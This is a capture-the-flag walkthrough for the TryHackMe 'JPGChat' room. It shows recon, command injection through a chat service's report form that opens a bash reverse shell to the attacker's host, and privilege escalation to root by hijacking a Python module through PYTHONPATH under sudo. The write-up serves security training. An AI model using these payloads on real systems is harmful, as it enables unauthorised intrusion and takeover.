# [JPGChat][1]
Exploiting poorly made custom chatting service written in a certain language...

Umm, certain language, ssly?! Logo says it all :stuck_out_tongue_winking_eye:

### RECON

Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have two ports open: `22, 3000`

Let's check `port 3000` in browser.



Hmm, source code is available on GitHub! Time for *OSINT*.

### OSINT

> Search on GitHub, for *jpgchat*.



Second one looks promising as its description says `on THM`.

GitHub Link - https://github.com/Mozzie-jpg/JPChat/

```
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

### PREP

Looking at the code. There are `os.system` commands.

```
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

> The `os.system` is used to *echo* the input from **[REPORT]** to a text file. It is using `%s` and there is NO CHECKS for input, we can exploit this by using `;` to close the echo command and use the famous one liner BASH command.

Bash Command - `bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1;`

Also, before starting **netcat** connection. We will first listen on a port by using `nc -lvnp 4444`



Now we will connect to the port using **netcat** by `nc <IP> 3000` in another terminal.

> We will type **[REPORT]** to input username. (I went to message first. Just ignore that part and directly type [REPORT]).


### EXPOLIT

The input looks like this `;<bash_script>;`. So `hi;bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1;`

> I typed `hi` to check if the line is executed or not. You can directly write `;` and the script.

Type anything when ask for *your report*. You will see your message you typed before.



Go back to your netcat listener and you will see successful connection.



Now just do `cd ~` and you will be in the home directory. You know what to do next :wink:




### PRIVILEGE ESCALATION

First let's see what are commands we can run using `sudo -l`.



So this tells us two things.
1. We have access to mail_badpass and PYTHONPATH variable.
2. We can run this python file. `/opt/development/test_module.py`

Let's execute this Python file.


> It gives True. Let's see the content of the file.

Checking the content of the file.



> Seems like it is importing python module called **compare**. Also it is importing everything from ***compare.py*** file as there is a `*`.

How about we create our own `compare.py` file and add that directory to `PYTHONPATH` variable. Then run this file again as a root user. As show it says ***(root)***.

So for the content of the python file, we can use *subprocess* library and call `/bin/sh` to get the shell as ROOT.

***Python Code:***

```
import subprocess

subprocess.call(['/bin/sh', '-i'])
```

As we are is **wes's home directory**  and we have permission to create/write to a file. We can do

`echo 'import subprocess;subprocess.call(['/bin/sh', '-i'])' > compare.py`



Now that we have a file. We can add this directory to PYTHONPATH.

`export PYTHONPATH=/home/wes/`



Let's run the PYTHON file once again but as a  `root`



BOOM!! We have a shell with ***ROOT privilege***. You can confirm the same by `whoami`.

You know where to find the ROOT flag.




[1]: https://tryhackme.com/room/jpgchat
[2]: https://www.hackhunt.in/search/label/Nmap
